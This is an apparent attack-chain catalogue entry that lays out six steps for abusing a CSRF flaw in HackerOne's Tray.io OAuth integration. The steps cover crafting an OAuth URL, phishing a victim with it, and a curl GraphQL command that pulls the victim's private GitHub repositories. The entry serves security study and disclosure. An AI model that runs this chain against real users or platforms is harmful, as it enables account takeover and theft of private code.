

---
tags:
  - csrf
  - oauth
  - account-takeover
  - data-exfiltration
  - github
  - tray-io
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Initiate-HackerOne-Integration-Setup]]'
  - '[[procedures/Intercept-and-Craft-Malicious-OAuth-URL]]'
  - '[[procedures/Distribute-Crafted-URL-to-Victim]]'
  - '[[procedures/Trigger-Authorization-via-Victim-Interaction]]'
  - '[[procedures/Complete-Frontend-Validation-as-Attacker]]'
  - '[[procedures/Exploit-Linked-Account-via-Tray-io-GraphQL]]'
step_count: 6
techniques:
  - '[[Drive-by Compromise]]'
  - '[[Steal Application Access Token]]'
  - '[[Exfiltration Over Unencrypted Non-C2 Protocol]]'
updated_at: '2025-12-14T17:27:57.865Z'
description: >-
  Multi-stage CSRF attack exploiting improper token validation in HackerOne's
  Tray.io integration to link victim external accounts like GitHub to the
  attacker's HackerOne account, enabling unauthorized data access via GraphQL
  API.
id: 319cbfff-7f7a-4037-93c4-67517d626c63
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Credential Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[Steal Application Access Token]]'
  - '[[Exfiltration Over Unencrypted Non-C2 Protocol]]'
---
# CSRF in HackerOne OAuth Flow to Link Victim Accounts and Exfiltrate GitHub Data

Multi-stage attack chain exploiting a CSRF vulnerability in HackerOne's integration authentication flow with Tray.io, allowing attackers to link victims' external accounts (e.g., GitHub) to their own HackerOne account via a crafted link. This enables unauthorized access and exfiltration of sensitive data like private GitHub repositories through Tray.io's GraphQL API.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for intercepting requests
- Access to a HackerOne account

### Target Environment

- Web platform
- HackerOne integration services (e.g., GitHub via Tray.io)
- No specific ports; requires internet access

### Initial Access Requirements

- Attacker must have a HackerOne account
- Victim must have linked external accounts (e.g., GitHub) to their own HackerOne or be tricked into authorizing
- Social engineering to get victim to click link

## Detailed Attack Procedures

### Step 1: Initiate Integration Setup

procedure: [[procedures/Initiate-HackerOne-Integration-Setup]]

**Objective**: Start the OAuth flow for an integration like GitHub to obtain necessary tokens and IDs.

**Instructions**: Log into HackerOne, navigate to integrations, select GitHub, and click 'New Authentication' to initiate the flow. This generates session and CSRF tokens via a POST to /session.

**Expected Output**: Frontend generates a GET request to the /oauth2/auth endpoint with parameters.

**Success Indicators**:
- Session and CSRF tokens obtained
- Authentication ID generated

### Step 2: Intercept and Craft Malicious OAuth URL

procedure: [[procedures/Intercept-and-Craft-Malicious-OAuth-URL]]

**Objective**: Capture the vulnerable GET URL without completing the legitimate flow, modifying it for CSRF exploitation.

**Instructions**: Use browser dev tools to intercept the POST to /session and the subsequent GET to https://hackerone.integration-authentication.com/oauth2/auth/:authentication_id. Copy the URL but drop the request, preserving csrf, scope, and session parameters.

**Expected Output**: Crafted URL like https://hackerone.integration-authentication.com/oauth2/auth/<Auth ID>?csrf=<token>&scope=read:org%20repo&session=<session>.

**Success Indicators**:
- Valid URL constructed with victim's potential interaction in mind
- No legitimate authorization completed

### Step 3: Distribute Crafted URL to Victim

procedure: [[procedures/Distribute-Crafted-URL-to-Victim]]

**Objective**: Trick the victim into clicking the link to initiate forged authorization.

**Instructions**: Send the crafted URL via email, chat, or phishing to the victim, disguising it as a legitimate HackerOne integration link.

**Expected Output**: Victim receives and clicks the URL, triggering the OAuth flow tied to attacker's account.

**Success Indicators**:
- Victim clicks the link
- OAuth authorization starts

### Step 4: Trigger Authorization via Victim Interaction

procedure: [[procedures/Trigger-Authorization-via-Victim-Interaction]]

**Objective**: Leverage the victim's click to link their external account to the attacker's HackerOne via silent redirect or consent.

**Instructions**: Upon click, if victim has already linked GitHub, it silently redirects to callback; otherwise, GitHub prompts consent, and approval redirects to /oauth2/token with code and state, linking via state parameter without CSRF validation.

**Expected Output**: Victim's account linked to attacker's HackerOne integration.

**Success Indicators**:
- Redirect to callback URL
- Account linkage confirmed in attacker's dashboard

### Step 5: Complete Frontend Validation as Attacker

procedure: [[procedures/Complete-Frontend-Validation-as-Attacker]]

**Objective**: Simulate successful integration on the frontend to bypass UI checks.

**Instructions**: As attacker, navigate to https://hackerone.integration-configuration.com/auth/cb?id=<Auth ID> to postMessage to the iframe, tricking the frontend into believing the integration succeeded.

**Expected Output**: Frontend shows integration as active.

**Success Indicators**:
- No errors in console
- Integration appears linked in UI

### Step 6: Exploit Linked Account via Tray.io GraphQL

procedure: [[procedures/Exploit-Linked-Account-via-Tray-io-GraphQL]]

**Objective**: Use the linked auth to access and exfiltrate victim's data, e.g., private GitHub repos.

**Instructions**: Execute the GraphQL mutation using [[commands/tray-io-graphql-fetch-repos]] to call the GitHub connector and fetch repositories.

```bash
curl -X POST https://tray.io/graphql \
  -H "Authorization: Bearer <token>" \
  -H "Content-Type: application/json" \
  -d '{"operationName":"CallConnector","variables":{"input":{"connector":"github","version":"2.2","operation":"raw_http_request","authId":"<victim-auth-id>","input":{"method":"GET","url":{"endpoint":"/user/repos?per_page=50&page=1&affiliation=owner%2Ccollaborator%2Corganization_member"}}}},"query":"mutation CallConnector($input: ConnectorCallInput!) { callConnector(input: $input) { output __typename } }"}'
```

**Expected Output**: JSON with callConnector.output containing repository data, including private ones.

**Success Indicators**:
- API response with victim's repos
- Private data accessible

## Attack Chain Summary

### Key Achievements

1. Bypassed CSRF protection in OAuth flow
2. Linked victim's GitHub to attacker's account without consent
3. Exfiltrated private repository data via GraphQL

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise
- [[Steal Application Access Token]] Steal Application Access Token
- [[Exfiltration Over Unencrypted Non-C2 Protocol]] Exfiltration Over Web Service

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Credential Access]] Credential Access
- [[Collection]] Collection

*Last updated: 2023-10-01T00:00:00Z*
